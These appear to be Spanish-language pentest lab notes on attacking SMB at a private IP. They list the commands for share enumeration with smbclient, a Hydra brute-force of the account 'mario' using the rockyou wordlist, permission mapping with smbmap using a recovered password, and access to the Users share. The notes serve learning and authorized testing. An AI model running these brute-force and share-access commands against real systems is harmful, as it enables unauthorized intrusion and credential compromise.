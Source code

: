 El protocolo SMB sirve para compartir archivos dentro de la propia red en windows. podemos lanzar el siguiente comando para comprobar si hay acceso a algún archivo simplemente con el siguiente comando:

````
smbclient -L 192.168.1.133
`````

En nuestro caso no se ha observado ningún archivo. Por lo que podemos optar por un ataque de fuerza bruta mediante Hydra con tal de conseguir las credenciales de acceso.

En este caso el comando de Hydra es similar al visto en las anteriores notas:

````
hydra -l mario -P /usr/share/wordlists/rockyou.txt smb://192.168.1.133
`````

Una vez teniendo la contraseña para poder acceder a los recursos compartidos haríamos uso de el siguiente comando:

````
smbclient -L 192.168.1.133 -U mario
`````

Y acto seguido nos solicitará la contraseña y nos mostrará los recursos compartidos.

En caso de que queramos saber los permisos de cada uno de estos recursos tendremos que hacer uso de SMBMAP. 

````
smbmap -H 192.168.1.133 -u 'mario' -p '123123'
````

![[4.HYDRA.jpg]]

Si queremos ejecutar comandos en algún recurso tendremos que hacer uso nuevamente de SMBCLIENT.

````
smbclient -U 'mario' //192.168.1.133/Users
`````

Una vez accedido tendremos acceso total al directorio y movilidad por el.

![[4.2. HYDRA.jpg]]